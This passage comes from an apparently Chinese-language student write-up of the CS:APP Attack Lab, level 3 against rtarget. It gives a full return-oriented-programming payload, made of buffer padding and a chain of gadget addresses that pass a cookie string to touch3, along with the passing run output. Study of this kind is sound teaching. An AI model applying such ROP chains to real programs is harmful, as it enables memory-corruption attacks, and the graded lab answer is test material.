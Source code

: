 感觉够了。Brutal! 指令竟然这么多。

#### 漏洞利用步骤：

**a.按照上面的指令逻辑开始构造**

```
AA AA AA AA AA AA AA AA 
AA AA AA AA AA AA AA AA 
AA AA AA AA AA AA AA AA 
AA AA AA AA AA AA AA AA 
AA AA AA AA AA AA AA AA  /*  40字节  */
ab 19 40 00 00 00 00 00   /*  4019ab: popq %rax  返回到第一条指令  */
20 00 00 00 00 00 00 00   /* cookie 的偏移,需要计算一下,movq %rsp,%rax指令处开始计算 */
dd 19 40 00 00 00 00 00   /* movl %eax,%edx ;  地址：4019dd */
34 1a 40 00 00 00 00 00   /* movl %edx,%ecx;  地址：401a34 */
13 1a 40 00 00 00 00 00  /* movl %ecx,%esi ; 地址:401a13 */
06 1a 40 00 00 00 00 00  /* movq %rsp,%rax ; 地址：401a06 */
a2 19 40 00 00 00 00 00  /* movq %rax,%rdi ;  地址：4019a2 */
d6 19 40 00 00 00 00 00  /* 4019d6:   lea (%rdi,%rsi,1),%rax */
a2 19 40 00 00 00 00 00  /* movq %rax,%rdi ;  地址：4019a2 */
fa 18 40 00 00 00 00 00  /* 4018fa:touch3 函数地址 */
35 39 62 39 39 37 66 61         /* $0x59b997fa, cookie     */
00 
```

**实验结果：**

```bash
$ ./hex2raw <exploit.txt >exploit-raw.txt 
$ ./rtarget <exploit-raw.txt  -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:3:AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AB 19 40 00 00 00 00 00 20 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00 
```

## 参考资料：

* [csapp Attack lab](http://csapp.cs.cmu.edu/3e/attacklab.pdf)

